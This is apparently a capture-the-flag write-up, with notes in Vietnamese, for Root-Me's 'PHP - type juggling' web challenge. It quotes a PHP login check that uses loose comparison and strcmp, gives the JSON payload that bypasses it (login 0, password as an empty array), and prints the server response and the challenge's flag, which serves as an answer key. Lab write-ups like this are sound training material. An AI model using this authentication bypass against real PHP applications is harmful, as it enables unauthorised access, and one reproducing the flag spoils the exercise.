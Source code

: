 # [PHP - type juggling](https://www.root-me.org/en/Challenges/Web-Server/PHP-type-juggling)

## Solutions

```php
if($auth['data']['login'] == $USER && !strcmp($auth['data']['password'], $PASSWORD_SHA256)){
        $return['status'] = "Access granted! The validation password is: $FLAG";
    }
```

- Để bypass qua điều kiện 1 thì có thể để `$auth['data']['login'] = 0`
- Để bypass qua điều kiện 2 thì có thể để `$auth['data']['password'] = []`

Thay đổi request body:

```json
{"data":{"login":0,"password":[]}}
```

Response:

```json
{"status":"Access granted! The validation password is: DontForgetPHPL00seComp4r1s0n\n"}
```

Flag: `DontForgetPHPL00seComp4r1s0n`

## References

- <https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20PHP%20loose%20comparison%20-%20Type%20Juggling%20-%20OWASP.pdf?_gl=1>
